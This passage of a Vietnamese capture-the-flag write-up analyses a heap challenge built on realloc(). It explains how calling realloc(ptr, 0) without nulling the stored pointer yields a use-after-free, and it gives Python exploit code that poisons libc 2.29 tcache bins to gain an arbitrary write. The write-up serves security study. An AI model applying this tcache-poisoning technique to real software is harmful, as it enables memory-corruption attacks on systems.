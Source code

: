 ```c
    heap[idx] = 0LL;
  }
  return (int)ptr;
}
```

- Thử thách này đặc biệt ở chỗ là cách nó sử dụng hàm `realloc()` để thực hiện thao tác liên quan đến bộ nhớ heap như phân bổ `malloc()`, phân bổ lại `realloc()` và giải phóng đoạn bộ nhớ heap `free()`. Hàm `realloc()` có thể được tái sử dụng cho hoạt động heap khác nhau:

    * realloc(ptr, NULL) : giống như free(ptr).
    * realloc(ptr, size) : mở rộng/thu nhỏ khối bộ nhớ dựa trên kích thước được yêu cầu. Nếu giá trị kích thước giống với kích thước khối cũ thì không có gì được thực hiện và cùng một khối bộ nhớ được trả về.
    * realloc(NULL, size) : giống như malloc(size).

### [2] Bug Exploit.

- Lỗ hổng nằm trong hàm `reallocate()`, như trình bày trước đó rằng gọi realloc(ptr, 0) (size = 0) thì như gọi *free(ptr). Hàm không kiểm tra kích thước = 0 => chúng tôi có thể chuyển đổi lệnh gọi realloc(ptr, size) thành lệnh gọi free(ptr) và mảng lưu con trỏ tới bộ nhớ không được đặt thành null nên dẫn đến `Use after free`.

- Phiên bản libc là 2.29 có t-cache bins và size giới hạn được cấp phát là 0x78 => Có thể ghi tùy ý sử dụng t-cache bins attack.


## C. EXPLOITATION

### [1] Stage 1: Arbitrary write.

- Thông thường trước tiên cần thực hiện leak libc nhưng trong thử thách này cách để lấy leak libc là thông qua `arbitrary write`.  

- Nhưng libc được cấp là 2.29, t-cache trên libc này có kiểm tra double-free và với số lượng rất ít chunk được phép sử dụng rất khó để thực hiện ghi đè bất cứ đâu bằng cách [bypass kiểm tra của libc](https://learn.dreamhack.io/34#19).

- Hint nằm ở đề bài là sử dụng re-alloc, VD chúng ta chỉ cần thay vì sử dụng Double-Free để đẩy vị trí ta muốn ghi vào bins list, chúng ta alloc một khối, sau đó sử dụng re-alloc để free khối đó, và cũng dùng chính realloc để sửa fd của t-cache với ptr không = null sau khi realloc(ptr, 0).

- __Kết luận:__ Sau khi phân bổ một khối với size như đã cấp phát trên, vị trí ta ghi ở fd sẽ đẩy lên chờ sẵn tại `t-cache bins` kích thước đó.

```python
####### [the first 0x20 tcache bins with TARGET]
Allocate(1, 16, b"1" * 15)
# Double Free
Reallocate(1, 0)  # free(1) but not set heapArr[1] = 0
Reallocate(1, 16, TARGET)
Allocate(0, 16, b"0" * 15)

# heap0 same is pointer heap1 and set 2nd ptr = null
Reallocate(1, 32, b"1" * 31)
rFree(1)  # set heap[1] = null

Reallocate(0, 32, b"0" * 31)
rFree(0)  # set heap[0] = null

####### the second 0x30 tcache bins with TARGET
Allocate(0, 32, b"0" * 31)
# Double Free
Reallocate(0, 0)  # free(0) but not set heapArr[0] = 0
Reallocate(0, 32, TARGET)
Allocate(1, 32, b"0" * 31)
```